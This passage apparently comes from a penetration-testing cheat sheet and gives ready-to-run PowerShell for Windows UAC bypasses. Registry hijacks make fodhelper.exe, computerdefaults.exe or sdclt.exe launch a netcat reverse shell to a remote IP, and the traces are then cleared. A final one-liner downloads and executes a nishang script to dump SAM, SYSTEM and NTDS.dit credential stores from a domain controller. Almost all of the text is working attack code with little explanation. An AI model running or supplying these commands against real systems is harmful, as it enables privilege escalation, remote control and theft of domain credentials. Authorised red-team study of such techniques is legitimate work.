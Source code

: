 {% hint style="danger" %}
This technique require Local Administrator to run **fodhelper.exe/ computerdefaults.exe**
{% endhint %}

```powershell
#Add '\Software\Classes\ms-settings\Shell\Open\command' registry on HKCU to run netcat
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value 'C:\nc64.exe -nc 10.0.77.1 8888 -e cmd.exe' -Force

#Execute fodhelper.exe OR computerdefaults.exe to run netcat
#for fodhelper.exe
Start-Process "C:\Windows\System32\fodhelper.exe"
#for computerdefaults.exe
Start-Process "C:\Windows\System32\computerdefaults.exe"

#Clear the registry
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

UAC bypass with **sdclt.exe**

{% hint style="danger" %}
This technique require Local Administrator to run **sdclt.exe**
{% endhint %}

```powershell
#Add '\Software\Classes\Folder\shell\open\command' registry on HKCU to run netcat
New-Item "HKCU:\Software\Classes\Folder\shell\open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "(default)" -Value 'C:\nc64.exe -nc 10.0.77.1 8888 -e cmd.exe' -Force

#Execute sdclt.exe to run netcat
Start-Process "C:\Windows\System32\sdclt.exe"

#Clear the registry
Remove-Item "HKCU:\Software\Classes\Folder\shell\open\command" -Recurse -Force
```

## Credential Dumping

### Domain Controller

Dump **SAM, STSTEM and NTDS.dit** from Domain Controller with [**nishang**](https://github.com/samratashok/nishang)

```powershell
iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Copy-VSS.ps1");Copy-VSS
```
